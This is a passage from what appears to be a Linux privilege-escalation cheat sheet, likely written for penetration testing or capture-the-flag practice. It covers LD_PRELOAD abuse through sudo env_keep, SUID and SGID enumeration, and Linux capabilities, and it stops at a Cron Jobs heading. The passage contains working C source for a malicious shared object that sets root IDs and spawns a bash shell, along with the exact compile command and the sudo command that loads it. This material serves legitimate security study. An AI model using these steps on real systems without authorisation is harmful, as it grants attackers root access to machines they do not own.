 #### Leveraging Application Functions
Some applications (like Apache2) might support loading alternate configuration files. If the `sudo -l` output includes:
```
env_keep+=LD_PRELOAD
```
This allows dynamic loading of shared libraries into binaries.

- Example malicious shared object code (C):
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

- Compile and run:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

---

### SUID (Set-user Identification)
Files with the SUID or SGID bit set run with the privileges of the file owner.

- List SUID/SGID files:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- Use [GTFO Bins](https://gtfobins.github.io/) with the "SUID" filter to look for exploitable binaries.

Use `ls -la` to analyze suspicious files further.

---

### Capabilities
Linux capabilities provide fine-grained control over root-like privileges.

- Check enabled capabilities:
```bash
getcap -r / 2>/dev/null
```
- Compare results with [GTFO Bins](https://gtfobins.github.io/) to identify escalation vectors.

---

### Cron Jobs
Cron jobs execute scripts at regular intervals with the privileges of the file owner.
